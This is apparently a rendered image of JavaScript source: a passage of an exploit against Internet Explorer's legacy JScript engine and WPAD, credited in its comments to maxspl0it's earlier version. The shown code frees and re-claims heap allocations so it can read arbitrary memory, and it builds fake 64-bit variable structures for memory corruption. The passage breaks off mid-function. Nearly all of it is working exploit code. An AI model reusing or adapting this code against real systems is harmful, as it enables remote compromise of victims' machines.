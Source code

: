     function ReClaimIndexNameList(Value, PropertyName) {
        CollectGarbage(); // Cleanup - note that removing this has not damaged stability of the exploit in any of my own tests and its removal significantly improved exploit performance (each arbitrary read is about twice as fast). I've left it here from maxspl0it's original version of the exploit to ensure stability.
        AnchorObjectsBackup[LeakedAnchorIndex] = null; // Delete the anchor associated with the leaked NameList allocation
        CollectGarbage(); // Free the leaked NameList
        AnchorObjectsBackup[LeakedAnchorIndex] = new Object();
        AnchorObjectsBackup[LeakedAnchorIndex][SizerPropName] = 1; // 0x239 property name size for 0x970 NameList allocation size
        AnchorObjectsBackup[LeakedAnchorIndex]["BBBBBBBBBBB"] = 1; // 11*2 = 22 in 64-bit, 9*2 = 18 bytes in 32-bit
        AnchorObjectsBackup[LeakedAnchorIndex]["\u0005"] = 1;
        AnchorObjectsBackup[LeakedAnchorIndex][PropertyName] = Value; // The mutable variable
        ReadCount++;
    }

    function ReClaimBackupNameLists(Value, PropertyName) {
        var PrecisionReClaimAllocCount = 500; // This is the number of re-claim attempts that are needed for a precision re-claim of a single freed region, not hundreds such as in the case of the GcBlock/type confusion re-claims. On IE8/11 300 is plenty, on WPAD 500 seems to be more stable.
        CollectGarbage(); // Cleanup

        if(InitialReClaim) {
            AnchorObjectsBackup[LeakedAnchorIndex] = null;
            InitialReClaim = false;
            PrecisionReClaimAllocCount -= 1;
            AnchorObjectsBackup[LeakedAnchorIndex] = new Object(); // Clog the index
        }

        for(var i = 0; i < PrecisionReClaimAllocCount; i++) {
            if(i != LeakedAnchorIndex) AnchorObjectsBackup[i] = null;
        }

        CollectGarbage(); // Free the leaked NameList

        for(var i = 0; i < PrecisionReClaimAllocCount; i++) {
            if(i != LeakedAnchorIndex) AnchorObjectsBackup[i] = new Object();
            AnchorObjectsBackup[i][SizerPropName] = 1; // 0x239 property name size for 0x970 NameList allocation size
            AnchorObjectsBackup[i]["BBBBBBBBBBB"] = 1; // 11*2 = 22 in 64-bit, 9*2 = 18 bytes in 32-bit
            AnchorObjectsBackup[i]["\u0005"] = 1;
            AnchorObjectsBackup[i][PropertyName] = Value; // The mutable variable
        }

        ReadCount++;
    }

    function CreateVar64(Type, ObjPtrLow, ObjPtrHigh, NextPtrLow, NextPtrHigh) {
        var CharCodes = new Array();

        CharCodes.push(
             // Type
            Type, 0, 0, 0,
            // Object pointer
            ObjPtrLow & 0xffff, (ObjPtrLow >> 16) & 0xffff, ObjPtrHigh & 0xffff, (ObjPtrHigh >> 16) & 0xffff,
            // Next pointer
            NextPtrLow & 0xffff, (NextPtrLow >> 16) & 0xffff, NextPtrHigh & 0xffff, (NextPtrHigh >> 16) & 0xffff);
